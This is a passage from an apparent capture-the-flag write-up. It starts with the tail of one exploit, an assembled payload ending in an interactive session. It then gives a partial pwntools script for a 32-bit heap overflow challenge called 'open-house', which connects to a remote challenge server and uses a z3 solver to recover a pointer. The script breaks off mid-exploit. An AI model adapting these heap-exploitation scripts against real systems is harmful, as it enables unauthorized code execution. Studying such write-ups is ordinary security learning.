 ```p16(len(code)//2)+code```
one(XxX("flag\0r\0AAAAAA")+p16(0x0280+2)+p16(0x0380+2)+p16(0x0080+4)+p16(0xf000)+p16(0x0081)+p16(0x0280+0)+p16(0x0380+0x7f)+p16(0xf000)+p16(0x1080+1)+p16(0x1180+111)+p16(0xf000))
p.interactive()
```

# open-house

It's a simple x32 heap overflow. I solved it locally but for the remote one, we need to leak the libc. My teammates finally used dynelf to leak. I attached my local solution for the challenge.

```
from pwn import *
# 
context.arch='i386'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
# p=process('./open-house')
# context.log_level='debug'

ru      = lambda a:     p.readuntil(a)
r       = lambda n:     p.read(n)
sla     = lambda a,b:   p.sendlineafter(a,b)
sa      = lambda a,b:   p.sendafter(a,b)
sl      = lambda a:     p.sendline(a)
s       = lambda a:     p.send(a)
p= remote("open-house-6dvpeatmylgze.shellweplayaga.me",10001)
sla(": ","ticket{StreetDeed544n23:gaVixliBvaQ2kmfgEJGTGexWuFwQx4S2R3stRpvhf9WN-T5d}")

def menu(c):
    ru('> ')
    sl(c)
def add(c):
    menu('c')
    ru('review!')
    sl(c)
def dele(idx):
    menu('d')
    ru('delete?')
    sl(str(idx))
def edit(idx,c):
    menu('m')
    ru('replace?')
    sl(str(idx))
    ru('with?')
    sl(c)
def show():
    menu('v')
from z3 import *
def XxX(leaked):
    leaked = BitVecVal(leaked, 32)
    res  = BitVec('res', 32)
    s = Solver()
    s.add((res>>12)^res==leaked)
    s.add(res>>24<=0x57)
    s.add(res>>24>=0x55)
    if str(s.check()) == 'sat':
        m = s.model()
        return  m.evaluate(res).as_long()
    else:
        print(s.check())
        exit(1)
payload = b'a'*0x1fe
for x in range(13):
    add("a"*0x1f9)
```